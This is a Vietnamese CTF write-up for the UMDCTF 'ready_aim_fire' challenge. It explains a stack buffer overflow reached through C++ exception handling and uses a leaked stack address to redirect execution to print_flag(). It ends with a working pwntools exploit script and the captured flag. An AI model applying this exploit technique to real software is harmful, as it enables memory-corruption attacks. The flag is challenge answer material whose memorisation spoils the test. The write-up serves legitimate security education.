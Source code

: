 # Challenge: ready_aim_fire
## Description
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/8f6e1ff9-b5ec-4bcd-85c0-f4e11b7e354c)
## Source
> ready_aim_fire

> ready_aim_fire.cpp

> Dockerfile

## Solution
Hãy kiểm tra file thực thi với checksec

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/bc7c8331-3bae-41d0-a3a8-11b10230ac9e)

Tuyệt vời, không canary, không PIE.

Để xem chúng ta có gì trong file .cpp

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/fe05f5e3-75bb-4285-a0ad-7f65cccb6fdd)

Để ý ở dòng thứ 60, chương trình sẽ in ra địa chỉ của biến cục bộ target_assist -> Leak RBP


Assembly code:

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/b6652a42-5998-4769-89b6-49aeb1dd361c)

Tức là chương trình sẽ in ra rbp-0x14 (với var_14 là -0x14).


OK, tiếp theo hãy xem phần tiếp theo: try catch với hàm fire_weapon():

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/3f77ed4f-1221-46ef-b6c3-3dc551a8014d)

Phần hay ho chính là ở **Canon::fire()**. Nó cho phép chúng ta nhập bao nhiêu tùy thích (cho đến khi gặp kí tự newline).
Khi số kí tự nhập vào lớn hơn 32 thì nó chỉ raise exception, đưa chúng ta về hàm main để xử lí exception chứ không exit chương trình.
Chúng ta có thể lợi dụng lỗi Buffer Overflow này để ghi đè địa chỉ trả về (saved RIP or Return address) của hàm main thành địa chỉ của print_flag().
Ok, hãy thử bằng GDB

Hãy nhập thử 32 kí tự kí tự "a" xem điều gì xảy ra (set breakpoint tại 1 điểm nào đấy trước khi nó trả về hàm main để có thể quan sát stack)
![image](https://github.com/sangnguyenthien/CTF/assets/89742084/9cff1199-2454-446c-8226-f82bc2e5ff93)

Địa chỉ chương trình **leak** ra cho chúng ta (rbp-0x14):
> 0x7ffdf365982c

Bạn có thể thấy LSB của giá trị lưu ở địa chỉ 0x00007ffdf36597e0 (**+0x0040**) là 0x20, tức là 32 kí tự đã nhập vào.
Input của chúng ta sẽ bắt đầu từ **+0x0044** (Viết thế này cho ngắn ^^).
Địa chỉ được leak ra cho chúng ta: **0x7ffdf365982c** sẽ là **+0x008c**
Suy ra cái rbp "của" hàm main chính là **+0x00a0** và return address của hàm main sẽ được lưu ở địa chỉ **+0x00a8**

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/45719a90-9f9c-403c-a4d4-ef12ff468208)


Mục tiêu của chúng ta chính là ghi đè giá trị ở địa chỉ **+0x00a8** thành địa chỉ của hàm **print_flag()** (địa chỉ **0x4023e6**).
Khi làm đến đây thì tôi nghĩ là, thế cần gì phải leak 1 cái địa chỉ (rbp-0x14) như trên nhỉ, chỉ cần dùng gdb để debug xong tính offset để ghi đè là xong.
Nhưng không, đời không như là mơ, khi tôi thử ghi đè: ví dụ 1 đống kí tự "a" cho đến khi đến địa chỉ **+0x00a8**. Bùm, lỗi tùm lum luôn.
Tôi nghĩ là nó còn liên quan đến những hàm khác, những stack frame khác nữa. Ví dụ như ở **+0x0070** và **+0x0078**, nếu tôi ghi đè những byte linh tinh vào đây là không quay về main được :))

Tôi đã từng đọc ở đâu đó nói rằng: Những thứ đề bài cho thì lúc nào cũng có một tác dụng nào đấy, chỉ là mình chưa biết thôi.
Đúng vậy, đã đến lúc tận dụng thứ mà chương trình leak ra cho chúng ta:
> 0x7ffdf365982c

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/aac73669-6dd1-40fa-9b3a-4a885b8c951b)


Bạn có thể debug vài lần để thấy điều này: Những giá trị màu tím (giá trị ở địa chỉ **+0x0068**, **+0x0070** và **+0x0098**) có độ chênh lệch (hmm có thể gọi là offset) không đổi với giá trị được chương trình leak ra.
Ví dụ:
> offset1 = (giá trị tại "**+0x0068**") - leak_addr = 0x7ffdf3659958-0x7ffdf365982c = 0x12c

> offset2 = (giá trị tại "**+0x0070**") - leak_addr = 0x7ffdf3659840-0x7ffdf365982c = 0x14

Với giá trị 0x4026be ở địa chỉ **+0x0078**, là một địa chỉ tĩnh nên không đáng lo.
 Lưu ý là khi remote thì leak_addr sẽ khác nhau nên chúng ta sẽ phải dùng offset để tính toán các giá trị ở các địa chỉ **+0x0068**, **+0x0070** và **+0x0098**

Mục đích là để giữ nguyên các các giá trị "nhạy cảm" trên các địa chỉ này, tránh xảy ra lỗi.

![image](https://github.com/sangnguyenthien/CTF/assets/89742084/d6711859-6097-4fbf-bd8f-59f3d3550aa8)


 Code giải:

 ```python
from pwn import *

#pwn/ready_aim_fire 
#UMDCTF{h0p3fu11y_th3_c++_pwn_w4snt_t00_h0rr1bl3}



context.binary = exe = ELF("./ready_aim_fire")

p = process(exe.path)

#p = remote("challs.umdctf.io", 31008)
p.recvuntil("laser cannon!\n")
leak_address = int(p.recvline()[:-1],16)
print(leak_address)

#payload = b"a"*52+p64(0x48)+(104-60)*b"b"
#payload = b"A"*52 + p64(0x4023E6)
payload = b"a"*36
offset_1 = 0x7ffdf3659958-0x7ffdf365982c
offset_2 = 0x7ffdf3659840-0x7ffdf365982c

overwrite_1 = offset_1 + leak_address
overwrite_2 = offset_2 + leak_address

payload += p64(overwrite_1)
payload += p64(overwrite_2)

payload += p64(0x4026be)

payload += p64(0)
payload += p64(0)
payload += p64(0)

payload += p64(overwrite_1)
payload += p64(0x1)
payload += p64(0x4023E6) ## Address of print_flag()


p.sendline(payload)

p.interactive()
```

 
